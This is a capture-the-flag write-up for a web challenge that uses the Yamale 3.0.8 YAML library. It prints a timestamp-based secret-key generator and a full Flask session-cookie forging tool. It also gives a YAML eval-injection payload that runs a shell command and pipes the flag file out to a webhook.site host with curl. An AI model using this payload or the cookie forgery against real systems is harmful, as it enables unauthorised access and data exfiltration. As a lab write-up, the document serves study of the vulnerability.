



# Description

> Yet Another Markup Language, YAML, YAML Ain't Markup Language, Yamale

# Flag

> **_flag{not_even_apache_can_stop_the_mighty_eval}_**

## Enumerating Sourcecode

Attached with the challenge we find a zip-file: [_src.zip_](assets/src.zip).
Inside of the zip there are 2 python files: _app.py_ and _config.py_.

Inspecting the source of _config.py_ we find out the secret_key is generated based on the current timestamp (of when the machine is spawned).

```py{linenos=false}
SECRET_KEY = hashlib.md5(
	datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()
).hexdigest()
```

Looking a bit further we can find some interesting code in _app.py_.

```py{linenos=false}
schema = Schemas.query.filter_by(id=schema_id).first_or_404()
schema = yamale.make_schema(content=schema.content)
data = yamale.make_data(content=content)

try:
	yamale.validate(schema, data)
```

**_Yamale 3.0.8_** is the library used for validation of the yaml templates. After googling we find a RCE vulnerability inside of the library ([https://github.com/23andMe/Yamale/issues/167](https://github.com/23andMe/Yamale/issues/167)) which is caused by the use of `eval` statements inside of the library.

However when you look further in the code you see you need to be logged in and have an id in your session.
Since we know how the secret is crafted we will be able to generate one and using that generate a session cookie.

## Getting access to the admin panel

Using the following little script we can "dump", well actually generate, the secret that will be used for the session cookie.

```py
import hashlib
import datetime

start_time = datetime.datetime(y, m, d, h, m, 0, 0)

SECRET_KEY = hashlib.md5(
    start_time.strftime("%d/%m/%Y %H:%M").encode()
).hexdigest()

print(SECRET_KEY)
```

First you replace the y, m, d, h, and m with that of the time you spawned the machine (make sure to use UTC time).
Then you can run the script and a secret will come out, in our case it was `82f412b476f33a68fc9510d1b77ad9c5`.

Then we can run a flask cookie generator, [cookie_generator.py](assets/cookie_generator.py).

```py
#!/usr/bin/env python3
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e


        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if(secret_key==None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e
else: # > 3.4
    class FSCM(ABC):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e


        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if(secret_key==None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e


if __name__ == "__main__":
    # Args are only relevant for __main__ usage

    ## Description for help
    parser = argparse.ArgumentParser(
                description='Flask Session Cookie Decoder/Encoder',
                epilog="Author : Wilson Sumanang, Alexandre ZANNI")

    ## prepare sub commands
    subparsers = parser.add_subparsers(help='sub-command help', dest='subcommand')

    ## create the parser for the encode command
    parser_encode = subparsers.add_parser('encode', help='encode')
    parser_encode.add_argument('-s', '--secret-key', metavar='<string>',
                                help='Secret key', required=True)
    parser_encode.add_argument('-t', '--cookie-structure', metavar='<string>',
                                help='Session cookie structure', required=True)

    ## create the parser for the decode command
    parser_decode = subparsers.add_parser('decode', help='decode')
    parser_decode.add_argument('-s', '--secret-key', metavar='<string>',
                                help='Secret key', required=False)
    parser_decode.add_argument('-c', '--cookie-value', metavar='<string>',
                                help='Session cookie value', required=True)

    ## get args
    args = parser.parse_args()

    ## find the option chosen
    if(args.subcommand == 'encode'):
			if(args.secret_key is not None and args.cookie_structure is not None):
				print(FSCM.encode(args.secret_key, args.cookie_structure))
    elif(args.subcommand == 'decode'):
			if(args.secret_key is not None and args.cookie_value is not None):
				print(FSCM.decode(args.cookie_value,args.secret_key))
			elif(args.cookie_value is not None):
				print(FSCM.decode(args.cookie_value))
```

Using the following command.

```bash
python cookie_generator.py encode -s 82f412b476f33a68fc9510d1b77ad9c5 -t '{"id": 1}'
```

Which results in the following cookie: `eyJpZCI6MX0.ZYL7gg.HUbj0yFMbcxw5ITkqsYsstVOGlA`, Ofcourse when running this for yourself don't forget to replace the token with your own.



We can replace our session cookie with this and after refreshing the page we seem to be logged in. Navigating to `/admin/schemas` presents us with a page where you can create new schemas.



## Getting the flag

Now we can exploit the `yamale` vulnerability.
Lets create a new schema with the following payload.

```yaml
name: str([x.__init__.__globals__["sys"].modules["os"].system("cat flag.txt | curl -X POST --data-binary @- https://webhook.site/REDACTED") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
```


Now we can go to the main page and run a validation on it. Using any payload that would be valid. For example.

```yaml
name: any_string_here
```

Since we are able to run commands we are able to cat the output of the flag file and pipe it into curl to post it to our webhook.site page.
Looking in there we see the flag.


